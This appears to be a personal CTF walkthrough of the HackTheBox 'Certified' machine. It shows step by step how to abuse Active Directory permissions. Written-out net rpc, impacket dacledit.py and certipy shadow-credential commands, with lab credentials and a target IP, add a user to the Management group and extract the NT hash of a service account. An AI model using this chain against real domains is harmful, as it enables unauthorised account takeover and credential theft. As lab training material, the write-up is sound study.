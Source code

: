 ![[HackTheBox/Windows/attachments/Pasted image 20250525200932.png]]

First, check the members of the CERTIFIED group

###### net rpc 
```
net rpc group members Management -U certified/judith.mader%judith09 -S 10.10.11.41
```

![[HackTheBox/Windows/attachments/Pasted image 20250525201106.png]]

Now execute the impacket script to make ourselves a write owner of management group using *owneredit.py*
![[HackTheBox/Windows/attachments/Pasted image 20250525201143.png]]

Then add ourselves to the management group using *dacledit.py* which gives us the ability to add users.
###### dacledit.py
```
dacledit.py -dc-ip 10.10.11.41 -action write -rights WriteMembers -principal judith.mader -target Management certified/judith.mader:judith09 
```

![[HackTheBox/Windows/attachments/Pasted image 20250525213055.png]]

Let's add ourselves as a member using *net rpc*

###### net rpc 
```
net rpc group addmem Management judith.mader -U certified/judith.mader%judith09 -S 10.10.11.41
```

![[HackTheBox/Windows/attachments/Pasted image 20250525213318.png]]

Verify this with 
```
net rpc group members Management -U certified/judith.mader%judith09 -S 10.10.11.41
```

whoop whoop - we're part of management group now 
![[HackTheBox/Windows/attachments/Pasted image 20250525213438.png]]

Next......

##### Exploit GenericWrite 

Create shadow credential for management_svc

###### Certipy 
```
certipy shadow auto -target certified.htb -dc-ip 10.10.11.41 -username judith.mader@certified.htb -password judith09 -account management_svc
```

![[HackTheBox/Windows/attachments/Pasted image 20250525213919.png]]
- this creates a certificate that allows us to authenticate as management_svc then gets a TGT as the management_svc user and then retrieves their NT hash 
